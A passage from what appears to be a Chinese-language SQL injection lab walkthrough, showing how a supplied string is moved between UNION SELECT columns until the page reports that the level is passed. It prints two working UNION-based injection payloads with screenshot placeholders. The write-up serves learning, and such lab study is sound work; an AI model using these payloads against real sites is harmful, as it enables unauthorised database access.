 #### 2.5.2.1. **第一个位置**

当将页面中提供的字符串放置第一个位置的时候，就会存在报错，证明位置并非正确。

```
payload：' union select 'O6chxH',null,null--
```

![图片 16](assets/%E5%9B%BE%E7%89%87%2016.png) 

#### 2.5.2.2. **第二个位置**

当将页面中提供的字符串放置第二个位置的时候，页面出现过关通知，那么就证明字符串放对位置了。

```
payload：' union select null,'O6chxH',null--
```

![图片 17](assets/%E5%9B%BE%E7%89%87%2017.png) 
